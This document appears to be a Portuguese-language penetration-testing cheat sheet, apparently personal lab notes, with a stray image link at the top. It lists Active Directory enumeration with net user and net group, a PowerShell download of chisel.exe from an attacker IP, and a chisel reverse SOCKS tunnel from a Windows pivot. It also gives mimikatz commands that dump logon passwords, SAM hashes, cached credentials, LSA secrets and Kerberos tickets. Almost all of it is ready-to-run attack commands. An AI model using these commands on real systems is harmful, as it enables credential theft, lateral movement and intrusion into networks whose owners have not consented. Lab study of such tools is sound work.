 
### .NET

Verificar usuários no domínio:

```
net user /domain
```

Verificar usuário específico no domínio:

```
net user jeffadmin /domain
```

Verificar grupos de domínio:

```
net group /domain
```

Verificar grupo específico do domínio:

```
net group "Sales Department" /domain
```


## CHISEL

Transferência de arquivo:

~~~~
powershell.exe wget http://192.168.45.216/chisel.exe -OutFile c:\Users\Public\chisel.exe
~~~~

Para Realizar o túnel, utilizei os seguintes comandos:

No kali:

```
chisel server -p 8080 --reverse
```

No pivo (Windows):

```
C:\Users\Public\chisel.exe client 192.168.45.203:8080 R:socks
```

### mimikatz


``` shell
## O que nos permitirá interagir com um processo de propriedade de outra conta
privilege::debug
token::elevate
## hashes para todos os usuários conectados no atual estação de trabalho
sekurlsa::logonpasswords
lsadump::sam
lsadump::cache
lsadump::secrets
sekurlsa::tickets /export
lsadump::lsa /patch

.\Tmimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "lsadump::sam" "exit"
.\Tmimikatz.exe "privilege::debug" "token::elevate" "lsadump::cache" "lsadump::secrets" "exit"
```